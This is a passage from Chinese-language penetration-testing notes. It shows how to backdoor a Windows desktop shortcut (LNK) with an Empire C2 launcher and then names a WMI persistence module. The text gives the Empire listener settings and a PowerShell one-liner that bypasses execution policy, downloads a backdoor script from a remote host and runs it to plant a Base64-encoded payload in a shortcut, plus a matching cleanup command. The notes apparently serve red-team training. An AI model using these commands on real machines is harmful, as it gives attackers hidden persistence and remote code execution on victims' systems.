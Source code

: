 #### LNK后门
	Empire
	Empire> set Host http://192.168.1.150
	Empire> set Port 8080
	>launcher powershell Listener's Name
	生成后只使用Base64的代码。
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-BackdoorLNK.ps1');Invoke-BackdoorLNK -LNKPath 'C:\Users\Administrator.DC\Desktop\Easy CHM.lnk' -EncScript Base64编码"
![image](/assets/Pentest_Note/master/img/539.png)
![image](/assets/Pentest_Note/master/img/540.png)
![image](/assets/Pentest_Note/master/img/541.png)
![image](/assets/Pentest_Note/master/img/542.png)

	清除后门
	>powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.107/ps/Invoke-BackdoorLNK.ps1');Invoke-BackdoorLNK -LNKPath 'C:\Users\Administrator.DC\Desktop\Easy CHM.lnk' -CleanUp"
![image](/assets/Pentest_Note/master/img/543.png)
#### WMI
	Empire>powershell/persistence/elevated/wmi